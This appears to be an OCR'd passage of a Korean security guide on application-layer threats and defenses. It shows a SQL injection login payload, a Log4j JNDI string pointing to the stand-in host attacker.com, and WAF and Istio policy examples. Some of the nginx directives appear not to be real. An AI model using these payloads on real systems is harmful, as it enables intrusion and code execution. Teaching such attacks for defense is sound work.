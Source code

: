 ### Layer 7 - 애플리케이션 계층

#### 현대의 위협과 공격 벡터
1. **API 보안 위협**
   ```http
   # API 악용 예시
   POST /api/v1/authenticate HTTP/1.1
   Content-Type: application/json
   
   {"username": "' OR '1'='1", "password": "anything"}
   ```

2. **현대적 웹 애플리케이션 공격**
   ```javascript
   // Log4j 취약점 악용 예시
   ${jndi:ldap://attacker.com/exploit}
   ```

3. **최근 공격 사례**
   - 2023년 MOVEit Transfer 제로데이 취약점 악용
   - 2024년 Citrix NetScaler ADC 원격 코드 실행

#### 방어 전략
1. **현대적 WAF 구현**
   ```nginx
   # ML 기반 탐지가 포함된 차세대 WAF 설정
   location / {
       modsecurity on;
       modsecurity_rules_file /etc/nginx/modsecurity/main.conf;
       
       # AI/ML 기반 이상 탐지
       anomaly_detection on;
       learning_mode off;
       threshold 75;
   }
   ```

2. **제로 트러스트 애플리케이션 접근**
   ```yaml
   # 현대적 신원 인식 프록시 사용 예시
   apiVersion: security.istio.io/v1beta1
   kind: AuthorizationPolicy
   metadata:
     name: zero-trust-policy
   spec:
     selector:
       matchLabels:
         app: secure-app
     rules:
     - from:
       - source:
           requestPrincipals: ["*"]
       to:
       - operation:
           methods: ["GET"]
           paths: ["/api/public/*"]
   ```
